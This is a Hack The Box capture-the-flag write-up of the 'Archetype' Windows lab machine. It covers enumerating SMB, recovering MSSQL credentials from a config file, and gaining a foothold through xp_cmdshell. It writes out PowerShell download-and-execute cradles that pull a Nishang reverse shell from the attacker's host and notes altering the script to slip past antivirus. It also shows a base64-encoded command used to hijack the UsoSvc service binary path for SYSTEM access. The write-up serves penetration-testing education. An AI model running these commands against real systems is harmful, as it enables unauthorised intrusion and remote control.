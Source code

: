 ```yaml
---
weight: 1
title: "HacktheBox - Archetype Writeup"
date: 2021-07-20
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Archetype Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["reverse-powershell", "legacy", "smb", "smbclient", "crackmapexec-smb", "impacket-mssqlclient", "mssql", "xp_cmdshell", "nishang", "modify-services", "windows-check-OS-architecture"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/1190" name="egre55" picture="https://www.hackthebox.com/storage/avatars/a9527867b56b74bd7de6f0b940a04916.png" >}}

<!--more-->

## Enumeration

- 1000 ports scan
```bash
nmap -sC -sV -oN nmap/initial 10.10.10.27
```

![initial nmap scan](1.png "initial nmap scan")

- all ports scan

![full nmap scan](2.png "full nmap scan")

### Open ports
- 135 (msrpc)
- 139 (smb 4 sure)
- 445 (smb 4 sure)
- 1433 (ms-sql-s/Microsoft SQL Server)

## SMB Enum

### CrackMapEXEC

![crackmapexec](3.png "crackmapexec")

### smbclient

![smbclient](4.png "smbclient")

wow `backups` shares. Let's try connect to it.

![backup shares](5.png "backup shares")

- download the file using the `get command`

### prod.dtsConfig
- content of the file

```perl
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
we've got the credentials

- `ARCHETYPE\sql_svc:M3g4c0rp123`

## Foothold/Gaining Access

### mssqlclient.py[Impacket]

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```

![mssqlclient](6.png "mssqlclient")

- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`

![xp_cmdshell whoami](7.png "xp_cmdshell whoami")

- Note: I'm using `xp_cmdshell` then `whoami`

### Nishang

{{< admonition tip "Nishang" >}}
[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.
{{< /admonition >}}

- I'm gonna copy the `Invoke-PowerShellTcp.ps1` into my `www` directory. Then, rename it to `rev.ps1`

![copy PowerShellTcp.ps1](8.png "copy PowerShellTcp.ps1")

- Open the `rev.ps1` file and pick one of the example. Then `copy` and `paste` it on the last line of the code.

{{< admonition tip >}}
Make sure! change the ip and port
{{< /admonition >}}


![PowerShellTcp.ps1 example](9.png "PowerShellTcp.ps1 example") _examples_

![modify PowerShellTcp.ps1](10.png "modify PowerShellTcp.ps1") <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

![blocked by AV](11.png "blocked by AV") <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


![execute again](12.png "execute again")

## User flag

![user flag](14.png "user flag")

### WinPEAS

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`

![check OSArchitecture](13.png "check OSArchitecture")

- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`

![download WinPEAS](15.png "download WinPEAS")

- Then run it by using this command `.\winpeas.exe`

## Privilege Escalation

### UsoSvc

- `WinPEAS` just found this juicy stuff:

![UsoSVC modify services](16.png "UsoSVC modify services")

### Modify service binary path
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

### Encoded Command
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```

- After that, run this command `sc.exe start UsoSvc`

![create a service](17.png "create a service")


![catch the shell](18.png "catch the shell") <br> _we've got the reverse shell and become system!_

## Administrator Flag

![administrator flag](19.png "administrator flag")

## Conclusion
I’ve learned a lot of tools today and `how to do a PowerShell reverse shell`. Ngl, this is a really fun box. I feel like my brain want to explode

I have a fun time doing this machine and I hope you guys too. Bye ;)